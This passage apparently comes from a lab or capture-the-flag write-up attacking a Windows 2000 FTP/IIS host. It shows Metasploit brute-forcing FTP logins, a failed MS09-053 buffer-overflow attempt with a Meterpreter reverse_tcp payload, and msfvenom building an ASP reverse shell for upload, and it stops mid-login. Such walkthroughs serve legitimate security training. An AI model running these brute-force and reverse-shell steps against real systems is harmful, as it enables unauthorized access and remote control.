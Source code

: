 I waited for 5-10 minutes for the lockout to expire, and then resumed the brute force and managed to get a successful login with `bob:Matrix`:

```shell_session
msf auxiliary(ftp_login) > run

[*] 192.168.1.11:21       - 192.168.1.11:21 - Starting FTP login sweep
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:Bobby (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:TheXero (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:Robert (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:Bob (Incorrect: )
[+] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN SUCCESSFUL: bob:Matrix
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Getting a Shell
Now that I had a valid set of credentials to login with, I decided to try the previously found buffer overflow exploit, but had no success in getting it to work:

```shell_session
msf > use exploit/windows/ftp/ms09_053_ftpd_nlst
msf exploit(ms09_053_ftpd_nlst) > set FTPUSER bob
FTPUSER => bob
msf exploit(ms09_053_ftpd_nlst) > set FTPPASS Matrix
FTPPASS => Matrix
msf exploit(ms09_053_ftpd_nlst) > set RHOST 192.168.1.11
RHOST => 192.168.1.11
msf exploit(ms09_053_ftpd_nlst) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms09_053_ftpd_nlst) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf exploit(ms09_053_ftpd_nlst) > run

[*] Started reverse TCP handler on 192.168.1.4:4444
[*] 192.168.1.11:21 - 257 "DZPWDEGPWS" directory created.
[*] 192.168.1.11:21 - 250 CWD command successful.
[*] 192.168.1.11:21 - Creating long directory...
[*] 192.168.1.11:21 - 257 "BVP�UURU5UUUU@�8QEPHu�@@@@���PKBFWFVEHNMDOYXKDRRDYQLMVMMHFMROVNDCQBMCIPNIJOOIDTUUMXHGKPHRTZTHQ����UTDJPJZUEGNWVVGWBXHZAFXZSBCSEPORVUYCKJUOZG����������$=w�����ZKNDAKKWCR�f�����OXGJMCTLYOCOUQISFOVKIEN" directory created.
[*] 192.168.1.11:21 - 200 PORT command successful.
[*] 192.168.1.11:21 - Trying target Windows 2000 SP4 English/Italian (IIS 5.0)...
[*] 192.168.1.11:21 - 150 Opening ASCII mode data connection for file list.
[*] Exploit completed, but no session was created.
```

As this exploit wasn't working for me, I proceeded to generate a Meterpreter payload manually using msfvenom and uploaded it to the public folder:

```shell_session
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp --format asp LHOST=192.168.1.4 -o shell.asp
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of asp file: 38315 bytes
Saved as: shell.asp

root@kali:~# ftp 192.168.1.11
Connected to 192.168.1.11.
220 Microsoft FTP Service
Name (192.168.1.11:root): bob
331 Password required for bob.
Password:
```